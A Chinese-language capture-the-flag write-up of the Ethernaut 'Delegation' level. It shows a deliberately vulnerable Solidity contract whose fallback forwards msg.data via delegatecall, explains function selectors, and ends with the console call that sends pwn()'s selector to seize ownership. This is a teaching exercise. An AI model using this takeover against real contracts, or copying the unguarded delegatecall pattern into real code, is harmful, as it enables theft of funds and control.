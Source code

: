 # Delegation
Delegation 這一關考察了幾個知識點，第一是delegatecall，第二是如何直接使用msg.data call函數，那我們先看一下合約代碼

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```
## 代码分析
代碼包含了兩份合約，分別是`Delegation`和`Delegate`，Delegate合約中，除`constructor`以外，只有一個函數`pwn()`,可以用于將`msg.sender`指定爲`owner`。而在`Delegation`合約中，只有一個`fallback`函數，這個函數中用戶可以使用`delegatecall`入參`msg.data`來調用目標地址的合約。

那有人在這裏問我怎麽保證`Delegation`調用`pwn()`的時候`msg.sender`是我們的錢包地址，難道`msg.sender`不是`Delegation`地址而是我們的地址嗎？是的，這便是`call`和`delegatecall`的區別。如果將設我們是`A`,有一個`B`合約和`C`合約，我們通過`B`合約`call` `C`合約的函數，那麽在這個情境下，`msg.sender`是`B`合約的地址，`msg.value`是B合約給予的，但是如果我們通過`delegatecall` `C`合約的函數，那麽`msg.sender`就是我們的地址，`msg.value`是我們給予的。

接下來，就是第二個問題，如何寫`msg.data`。這裏附帶一下solidity官方文檔的原文：

>**Function Selector**  
The first four bytes of the call data for a function call specifies the function to be called. It is the first (left, high-order in big-endian) four bytes of the Keccak-256 hash of the signature of the function. The signature is defined as the canonical expression of the basic prototype without data location specifier, i.e. the function name with the parenthesised list of parameter types. Parameter types are split by a single comma - no spaces are used.

大致意思就是說，`msg.data`的前四個字節是函數的`selector`，這個`selector`是函數的`keccak256`哈希值的前四個字節。除了前四個字節外，我們還要在最開始加上`0x`。

我們可以通過兩種方式來獲取`selector`:
1. 使用web3.js的web3.eth.abi.encodeFunctionSignature函數
```
web3.eth.abi.encodeFunctionSignature('pwn()')
```
1. 使用web3.utils.sha3函數
```
web3.utils.sha3('pwn()').slice(0, 10)
```
理解這兩點我們就可以開始闖關了。

## 攻击过程
1. F12打開console,調用`web3.eth.abi.encodeFunctionSignature`函數獲取`pwn()`的selector,得到`'0xdd365b8b'`
2. 使用`contract.sendTransaction({data: '0xdd365b8b'})`調用`pwn()`函數,完成交易，并且完成本次的通關。
